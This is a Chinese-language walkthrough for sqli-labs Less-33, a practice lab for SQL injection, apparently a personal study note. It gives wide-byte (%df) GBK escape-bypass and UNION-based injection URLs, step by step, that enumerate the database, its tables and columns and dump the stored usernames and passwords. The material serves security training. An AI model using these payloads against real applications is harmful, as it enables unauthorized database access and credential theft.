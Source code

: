 ```yaml
---
title: Less - 33
date: 2023-03-17T12:37:04Z
lastmod: 2023-03-17T12:45:12Z
---
```


# Less - 33

---

# 通关教程

---

## 1、判断闭合

---

查看一下源码，发现也是用了gbk编码

​![image](assets/image-20230317123907-ugzed60.png)​

在单引号前面输入%df即可让单引号成功逃逸

```http
http://192.168.225.132/sqli-labs/Less-33/?id=1%df'
```

​![image](assets/image-20230317124016-erun6kr.png)​

---

## 2、查看当前库

---

```http
http://192.168.225.132/sqli-labs/Less-33/?id=-1%df' union select 1,2,database()--+
```

​![image](assets/image-20230317124206-m0i4si3.png)​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-33/?id=-1%df' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

​![image](assets/image-20230317124246-vtui3cq.png)​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-33/?id=-1%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)--+
```

​![image](assets/image-20230317124350-63ha32m.png)​

---

## 5、查看username,password字段下的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-33/?id=-1%df' union select 1,2,(select group_concat(username,password) from security.users)--+
```

​![image](assets/image-20230317124502-6htie1v.png)​

‍

---
